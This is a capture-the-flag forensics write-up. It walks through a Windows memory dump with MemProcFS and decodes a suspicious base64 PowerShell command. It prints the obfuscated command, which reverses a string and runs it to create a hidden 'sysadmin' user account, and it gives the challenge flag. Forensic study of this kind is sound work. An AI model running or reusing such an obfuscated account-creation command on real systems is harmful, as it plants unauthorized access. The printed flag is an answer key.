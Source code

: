 this challenge you required to do memory dump analysis, therefore you need to use software like Volatility or Memprocfs

![image](https://github.com/user-attachments/assets/5ee3aa9b-0007-4cdd-80ca-d3d9dd1a7fa4)

analysing it using memprocfs `memprocfs.exe -device C:\Users\aan\Downloads\memory\Windows.vmem -forensic 1`

![image](https://github.com/user-attachments/assets/d721002c-cbce-4de1-8325-f35806bbf9ce)

based from the question itself we were required to find out the created user account and its password, therefore this kind info can be located at forensic/csv/process.csv file, to analyze it even easier you can use spreadsheet software like TimeLineExplorer

![image](https://github.com/user-attachments/assets/e0c3d587-82cd-4eda-a44a-758990afef9a)

as you can see, there is a strange powershell base64 encoded command executed

![image](https://github.com/user-attachments/assets/d54d6229-963c-4801-a10b-1a701a742d51)

decoding it using cyberchef here is what we got

![image](https://github.com/user-attachments/assets/3b1a5fb7-a61c-4952-a5a3-921547cd199b)

```
$laIIMq = 'dd' + 'a/' + ' ni' + 'mdAS' + 'YS n' + 'i' + 'md' + 'asys ' + 'r' + 'es' + 'u t' + 'en'; $kSmmAiw = -join ($laIIMq.ToCharArray()[-1..-($laIIMq.Length)]); Invoke-Expression $kSmmAiw ; Start-Sleep -Seconds 600
```

upon further inspection `$laIIMq` is reversed net user command of creating a user `sysadmin:SYSAdmin`

flag `ihack24{sysadmin_SYSAdmin}`


